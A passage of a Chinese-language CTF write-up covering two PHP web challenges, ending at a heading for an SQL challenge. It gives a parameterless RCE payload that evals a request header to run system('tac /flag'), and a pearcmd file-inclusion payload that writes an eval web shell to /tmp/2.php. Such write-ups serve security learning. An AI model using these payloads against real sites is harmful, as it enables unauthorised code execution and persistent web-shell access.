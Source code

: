 用 githack 扫一下

![](https://s2.loli.net/2024/03/08/iTK2tx6Ooc8yqGB.png)

![](https://s2.loli.net/2024/03/08/HVCtWDlirQLMcwF.png)

找到文件了，访问/bo0g1pop.php

![](https://s2.loli.net/2024/03/08/g5DGqXoKPs7fd26.png)

[RCE 篇之无参数 rce - 学安全的小白 - 博客园](https://www.cnblogs.com/pursue-security/p/15406272.html)

![](https://s2.loli.net/2024/03/08/ObnAI2w79tJELNP.png)

无参 RCE，但是本题还有过滤，经过一番搜索最后成功构造 payload：

`?star=eval(next(getallheaders()));
user-Agent：system('tac /flag');`

![](https://s2.loli.net/2024/03/08/VpfR32PWnT1Lyqa.png)

> 我猜是因为第一个是 Upgrade，UA 在第二个所以用 next()

附锅老师的操作：

![](https://s2.loli.net/2024/03/08/QHi1UxFILdEmaZN.png)

### [WEEK3] Include 🍐

pearcmd



![](https://s2.loli.net/2024/03/08/s46Wr5VeOz8MA9x.png)

[Docker PHP 裸文件本地包含综述 | 离别歌](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

![](https://s2.loli.net/2024/03/08/hlveEgsBtDOrZHq.png)

[register_argc_argv 与 include to RCE 的巧妙组合 - Longlone's Blog](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/register_argc_argv%E4%B8%8Einclude%20to%20RCE%E7%9A%84%E5%B7%A7%E5%A6%99%E7%BB%84%E5%90%88/)

``Payload:
?file=pearcmd&+config-create+/<?=eval($_POST['a']);?>+/tmp/2.php``

![](https://s2.loli.net/2024/03/08/RH4kQdrzaUPfTZW.png)

**用 BP 传，url 直接传会被编码导致转义**

然后包含文件，include 会执行 2.php 的代码，我们 post 传值即可

![](https://s2.loli.net/2024/03/08/SE9H7ledks8RAvM.png)

### [WEEK3] medium_sql
